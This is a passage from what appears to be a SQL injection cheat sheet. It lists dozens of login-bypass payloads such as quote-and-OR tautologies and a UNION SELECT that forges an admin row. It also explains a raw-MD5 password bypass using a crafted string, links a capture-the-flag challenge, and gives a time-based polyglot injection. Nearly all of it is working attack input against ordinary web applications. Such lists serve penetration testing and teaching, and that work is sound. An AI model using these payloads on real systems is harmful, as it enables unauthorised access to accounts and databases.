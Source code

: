 ```sql
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

## Authentication Bypass (Raw MD5)

When a raw md5 is used, the pass will be queried as a simple string, not a hexstring.

```php
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```

Allowing an attacker to craft a string with a `true` statement such as `' or 'SOMETHING`

```php
md5("ffifdyop", true) = 'or'6�]��!r,��b
```

Challenge demo available at [http://web.jarvisoj.com:32772](http://web.jarvisoj.com:32772)

## Polyglot injection (multicontext)

```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```
